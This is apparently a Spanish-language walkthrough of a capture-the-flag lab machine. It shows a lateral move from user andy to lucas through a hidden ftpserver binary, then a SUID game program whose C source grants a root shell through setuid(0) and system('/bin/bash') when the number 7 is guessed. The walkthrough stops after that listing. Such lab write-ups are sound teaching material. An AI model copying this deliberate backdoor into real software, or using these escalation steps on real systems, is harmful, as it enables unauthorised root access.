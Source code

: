 ## Escalate user lucas

Si no vamos a la siguiente ruta:

```shell
cd /home/andy/.secret
```

Veremos 2 archivos:

```
-rwxr-xr-x 1 andy andy   512 Sep 11 22:31 escalate.c
-rwxr-xr-x 1 andy andy 16176 Sep 11 22:33 ftpserver
```

Si ejecutamos `ftpserver` seremos el usuario `lucas`:

```shell
./ftpserver
```

Info:

```
UID actual: 1001
EUID actual: 1001
bash: $'\302\241Bienvenido': command not found
```

## Escalate Privileges

Si nos vamos a la siguiente ruta:

```shell
cd /home/lucas/.game
```

Veremos 2 archivos, pero uno de ellos nos interesa ya que tiene permisos `SUID`, a parte de que podemos ver el archivo `.c` por lo que sabemos que lo que hace el archivo es lo siguiente:

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    int guess;
    int secret_number = 7; // Número secreto para ganar

    printf("¡Bienvenido al juego de adivinanzas!\n");
    printf("Adivina el número secreto (entre 1 y 10): ");
    scanf("%d", &guess);

    if (guess == secret_number) {
        printf("¡Felicidades! Has adivinado el número.\n");
        printf("Iniciando shell como root...\n");

        // Cambia el UID efectivo a root (0)
        setuid(0);
        system("/bin/bash");
    } else {
        printf("Número incorrecto. Intenta de nuevo.\n");
    }

    return 0;
}
```
